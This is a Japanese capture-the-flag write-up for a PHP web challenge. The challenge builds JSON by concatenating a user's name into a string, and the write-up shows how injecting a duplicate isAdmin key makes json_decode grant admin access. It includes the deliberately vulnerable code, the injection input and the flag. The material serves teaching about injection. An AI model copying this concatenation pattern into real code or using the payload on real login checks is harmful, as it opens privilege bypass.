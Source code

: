 # PIYOTASO

2年前にISCCTFで出題した[crackjwt](https://y0d3n.hatenablog.com/entry/2020/10/27/093256) のjwtじゃないバージョンです。  
今回も[ぴよたそ](https://hiyokoyarou.com/) の画像をお借りしています。

![top](./img/PIYOTASO_1.png)

適当に名前を入力してログインすると、flagを閲覧する権限がないと言われてしまいます。

![yoden](./img/PIYOTASO_2.png)

該当コードを見てみましょう。

```php
<?php
$status = json_decode('{"isAdmin": false, "name": "' . $_POST['name'] . '"}', true);
if ($status["isAdmin"] == false) {
    echo '<img src="/gif/nyoronyoro.gif" alt="nyoronyoro"><p>ようこそ ' . htmlspecialchars($status["name"]) . 'さん。<br>あなたにはflagを閲覧する権限はありません。</p>';
} else {
    echo '<img src="/gif/congrats.gif" alt="congrats"><p>ようこそ ' . htmlspecialchars($status["name"]) . 'さん。<br><strong>' . $_ENV["flag"] . '</strong></p>';
}
?>
```

`json_decode('{"isAdmin": false, "name": "' . $_POST['name'] . '"}', true);`というところがミソです。  
yodenと入力した際のjsonは以下のようになります。

```json
{"isAdmin": false, "name": "yoden"}
```

isAdminがfalseなため閲覧権限がなく、nyoronyoro.gifが返ってきます。  

この情報をヒントにするか迷ったのですが、**PHPのjson_decodeではdecode時にkeyが衝突したら一番最後の値が優先されます**。  
つまり以下のようなjsonを作ることができたら、json_decode時にisAdminがtrueになります。

```json
{"isAdmin": false, "name": "yoden", "isAdmin": true}
```

ログイン時の入力を工夫してみましょう。  
まずは`"`のみを入力した際はどうなるか考えてみます。

jsonは`{"isAdmin": false, "name": "yoden""}`のようになり、パースはエラーになります。

!["](./img/PIYOTASO_3.png)

これを利用して`{"isAdmin": false, "name": "yoden", "isAdmin": true}`のようなjsonを作りたいところですが、 
`yoden", "isAdmin": true`のようにしてしまうと、実際に生成されるjsonは以下のようになり、またエラーになってしまいます。

```json
{"isAdmin": false, "name": "yoden", "isAdmin": true"}
```

最後の`"`が邪魔なので、もう一度`"name"`を挟むことで解決します。  
`yoden", "isAdmin": true, "name": "y0d3n`を入力することでjsonを以下のようにするとflagが手に入ります。

```json
{"isAdmin": false, "name": "yoden", "isAdmin": true, "name": "y0d3n"}
```

![flag](./img/PIYOTASO_4.png)

`flag{hiyoko_manju_tottemo_oisi}`
